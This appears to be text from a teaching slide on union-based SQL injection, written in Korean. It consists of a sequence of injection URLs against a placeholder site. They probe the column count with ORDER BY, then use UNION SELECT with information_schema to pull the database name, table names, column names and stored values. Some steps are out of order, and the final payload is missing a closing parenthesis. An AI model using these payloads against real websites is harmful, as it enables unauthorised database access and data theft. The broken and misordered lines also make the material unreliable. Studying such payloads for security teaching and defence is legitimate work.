

# Union based 예시
www.example.com/?idx=1
www.example.com/?idx=1+order+by+1--
www.example.com/?idx=1+order+by+2--
www.example.com/?idx=1+order+by+4--
www.example.com/?idx=1+order+by+5--
www.example.com/?idx=1+union+select+1,2,3,4,5--
www.example.com/?idx=1+order+by+3--
www.example.com/?idx=-99+union+select+1,database(),3,4,5--
www.example.com/?idx=-99+union+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_name=테이블명--
www.example.com/?idx=-99+union+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--
www.example.com/?idx=-99+union+select+1,group_concat(concat_ws(0x3a,컬럼1,컬럼2),3,4,5+from+테이블명--